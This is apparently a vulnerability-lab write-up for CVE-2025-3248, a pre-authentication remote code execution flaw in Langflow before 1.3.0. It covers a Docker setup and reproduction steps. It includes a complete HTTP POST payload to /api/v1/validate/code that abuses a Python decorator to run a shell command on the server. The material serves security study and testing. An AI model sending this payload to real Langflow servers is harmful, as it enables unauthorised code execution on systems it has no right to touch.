

Langflow validate/code API Pre-Auth Remote Code Execution (CVE-2025-3248)¶
Langflow is a popular open-source tool for building agentic AI workflows, providing a Python-based web interface to visually construct AI-driven agents and pipelines.
A critical unauthenticated remote code execution vulnerability (CVE-2025-3248) exists in Langflow prior to version 1.3.0. An vulnerable endpoint (/api/v1/validate/code) attempts to validate user-submitted Python code by parsing it with the ast module and executing any function definitions using exec. However, Python decorators and default argument expressions are also executed at function definition time, making it possible to inject arbitrary code via these features.
Attackers can exploit this issue by sending a specially crafted function definition with a malicious decorator or default argument, resulting in code execution as the server user.
References:
- https://horizon3.ai/attack-research/disclosures/unsafe-at-any-speed-abusing-python-exec-for-unauth-rce-in-langflow-ai/
- https://github.com/langflow-ai/langflow/releases/tag/1.3.0
- https://github.com/langflow-ai/langflow/pull/6911
Environment Setup¶
Execute the following command to start a Langflow 1.2.0 server:
docker compose up -d
After the server starts, the Langflow web interface will be available at http://your-ip:7860. You can login with the default credentials administrator:vulhub.
Vulnerability Reproduction¶
To reproduce the vulnerability, you can send a POST request to the /api/v1/validate/code endpoint with a malicious Python function definition. For example, the following payload will execute id command on the server using a decorator:
POST /api/v1/validate/code HTTP/1.1
Host: your-ip:7860
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 105
{"code": "@exec(\"raise Exception(__import__('subprocess').check_output(['id']))\")\ndef foo():\n pass"}
